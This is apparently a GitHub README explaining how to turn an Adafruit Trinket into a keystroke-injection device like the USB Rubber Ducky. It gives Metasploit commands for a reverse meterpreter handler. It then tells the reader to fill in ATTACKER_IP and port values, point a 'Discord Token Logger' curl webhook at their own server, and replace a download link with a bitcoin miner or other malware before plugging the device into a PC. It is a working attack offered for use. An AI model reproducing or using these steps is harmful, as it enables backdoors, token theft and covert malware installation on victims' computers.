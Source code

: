 ## Icey's Script

[The Best USB Rubber Ducky Solution]

The first thing you will need is the device ~ roughly $40 cheaper then a real ducky ~ [Adafruit Trinket](https://www.adafruit.com/product/2000?gclid=CjwKCAjwm_P5BRAhEiwAwRzSOzePwCEtjDbmIK55p0BAYJ9yXicqMlGhq5fEl4ScdXdDDwepYw4XmBoCQEMQAvD_BwE)

Secondly You Will Need The Trinket Keyboard Library Found [Here](https://learn.adafruit.com/pro-trinket-keyboard/library)

Now, you need the IDE found here [IDE](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide)

Lastly, you need the [script](https://pastebin.com/raw/wdZ0axP5)

Now, once you have the script in your IDE, you need to make a few edits:
Make a Backdoor in Metasploit with these commands
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST YOUR-IP-HERE
set LPORT YOUR-PORT-HERE
run -j
```
After that is done, put your ip and port in the ATTACKER_IP section and port in the ATTACKER_PORT section.
Once that is done, change the discord webhook two lines after the "Discord Token LoggerIpTimeName" comment and the webhook at the end of the line that starts with Curl

Now, change the download link under "Bitcoin Miner" to your own direct download link to a miner/other malware

You can also add more exploits yourself with the same format as the others
Once done, plug your device into your PC, make sure it is in 

Once all of this is done, you must do a few more things to upload the script to the device
First: Select the Pro Trinket 5V/16MHz (USB) or Pro Trinket 3V/12MHz (USB) board from the Tools->Board menu
Second: Go into the Tools -> Programmer menu and select the USBtinyISP programmer
Third: Plug in the Trinket, make sure you see the green LED lit (power good) and the red LED pulsing. Press the button if the red LED is not pulsing, to get into bootloader mode.

Click the Upload button (or select File->Upload)

And that’s it! You’re ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code.

Enjoy! and remember: only use this on PC's you have permission to use it on
